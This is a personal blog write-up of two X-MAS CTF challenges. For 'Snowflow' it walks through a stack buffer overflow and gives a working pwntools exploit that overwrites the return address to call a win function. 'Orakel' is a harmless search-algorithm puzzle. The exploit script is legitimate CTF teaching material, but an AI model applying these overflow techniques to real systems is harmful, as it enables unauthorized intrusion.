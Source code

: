 ```yaml
---
layout: post
title: XMas CTF
excerpt: "This is my first blog post and I'm writting it a while after the CTF has concluded however I need to start somewhere right? I wasn't able to contribute much to this CTF as I was preparing for finals. However, I did have a great time solving and attempting what I could and it was great to work with other members of redpwn."
categories: [Writeups, XMasCTF]
---
```

This is my first blog post and I'm writting it a while after the CTF has concluded however I need to start somewhere right? I wasn't able to contribute much to this CTF as I was preparing for finals. However, I did have a great time solving and attempting what I could and it was great to work with other members of redpwn.

### Pwn

#### Snowflow
```
Snow, snow, snow... there is snow everywhere! I'm feeling a little bit overwhelmed... or would I say overflowed?
```

Running a file check on the challenge we see that it is stripped which means there are no debugging symbols.
```
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.  
2, for GNU/Linux 3.2.0, BuildID[sha1]=b96d5da6df4dc39b35bec7a8068b741d24999c3d, stripped
```

My second step was to open the binary in Ghidra. I saw that the main function had a buffer which could be overflowed. 
```
  char local_12 [10];
  
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  puts("Helloooooo, do you like to build snowmen?");
  read(0,local_12,100);
```

Looking at the other functions in the binary, I noticed a function at `0x401156` which contained `puts("X-MAS{REAL FLAG ON THE SERVER}");` Okay, looks like we just need to overflow to run this function which will display for us the real flag on the server. 

The first step was to determine the offset. As this is a 64 bit program, I use cyclic from pwntools and send a 512 length string. I attach GDB so that when it crashes I can look at the registers. For 64 bit pwn, RIP is not actually overflow, so I look at RSP for the offset. 

```
$rsp : 0x00007ffe59e19be8 → "aafaaagaaahaaa
```

I then use cyclic_find from pwntools to identify that the offset is 18. The last step is to add a 64 bit packed address of the function we want to execute which is easy using pwntools. My final solution script looks like this.

```python
from pwn import *  
  
context.terminal = ["tmux", "split", "-h"]  
  
#r = process("./chall")  
  
#gdb.attach(r)  
  
r = remote("challs.xmas.htsp.ro", 12006)  
  
r.recvline()  
  
payload = ""  
  
#payload += cyclic(512)  
# offset is 18  
  
payload += "A" * 18  
  
payload += p64(0x401156)  
  
r.sendline(payload)  
  
r.interactive()
```

### PPC

#### Orakel
```
We have finally linked up with the famous Lapland Oracle, that knows and sees all!
Can you guess his secret word?

Remote server: challs.xmas.htsp.ro 13000
```

When connecting to the server, we see that we are given 1000 opportunities to guess the correct key. After brute spamming characters, I deemed the key length to be around 100 characters. This means our program needs to be quite efficient!

The first algorithm which came to mind was binary search. However, after failing to implementing it multiple  times I still couldn't get it to work. The trick was realizing that at each character, the "score" would firrst decrease, then increase if we went from a - > Z. I found an interesting article on how to find the minimum in such a sequence [here](https://www.geeksforgeeks.org/minimum-in-an-array-which-is-first-decreasing-then-increasing/ "https://www.geeksforgeeks.org/minimum-in-an-array-which-is-first-decreasing-then-increasing/"). 

In my solution, I also chose to optimize the searching by implementing a valueDict array which stored the searched strings for each length and their scores. This is a dynamic programming style approach which stops the program from wasting a search on something we already looked for. My final solution didn't cleanly recieve the flag, so I used `context.log_level = "debug"` to display all sent and recieved text to retrieve the flag. Below is my final solution which got the flag in ~800 attempts.

```python
from pwn import *
from time import sleep
import regex as re
import string

context.log_level = "debug"

r = remote("challs.xmas.htsp.ro", 13000)
r.recvuntil("Luck.")
r.recvline()

bestScore = 99999
attempts = 1

regexp = re.compile(r": (.*)")

def getScore(inpStr):
    global attempts
    attempts += 1
    r.sendline(inpStr)
    inpLine = r.recv()
    score = int(regexp.search(inpLine).group(1))
    return score

valueDict = {}

def getScoreEff(inpStr):
    global valueDict
    if(inpStr in valueDict):
        return valueDict[inpStr]
    else:
        retVal = getScore(inpStr)
        valueDict[inpStr] = retVal
        return retVal

r.sendline("A")
sleep(1)
r.recv()
r.recv()

# Begin search char by char assuming length max is 100

searchSpace = []
foundKey = ""
currScore = 99999

for i in range(65, 122 + 1):
    if i <= 90 or i >= 97:
        searchSpace.append(i)

for i in range(100):
    if currScore < 0:
        break
    # for each char
    low = 0
    high = len(searchSpace) - 1
    mid = 0

    while(low < high):

        mid = low + ((high - low) / 2)

        #print(str(low) + " " + str(mid) + " " + str(high))

        #lowScore = getScoreEff(chr(searchSpace[low]))
        midScore = getScoreEff(foundKey + chr(searchSpace[mid]))
        midScoreRight = getScoreEff(foundKey + chr(searchSpace[mid + 1]))
        #highScore = getScoreEff(chr(searchSpace[high]))

        #print(str(lowScore) + " " + str(midScore) + " " + str(highScore))

        if midScore < midScoreRight:
            high = mid
        else:
            low = mid + 1

    foundKey += chr(searchSpace[low])
    currScore = getScoreEff(foundKey)
    print(foundKey + " with score of: " + str(getScoreEff(foundKey)) + ", attempts: " + str(attempts))
    currScore = getScoreEff(foundKey)
    valueDict.clear()

    #print("Min found at: " + str(searchSpace[mid]) + ", with a value of: " + str(getScore(chr(searchSpace[mid]))))   

r.interactive()
```

## Concluding thoughts

Solving the few problems that I did was great, especially seeing my orakel script crank through the characters and the score lowering as it pressed onward. I do wish I had more time to spend on this CTF as we might have been able to place higher as a team.
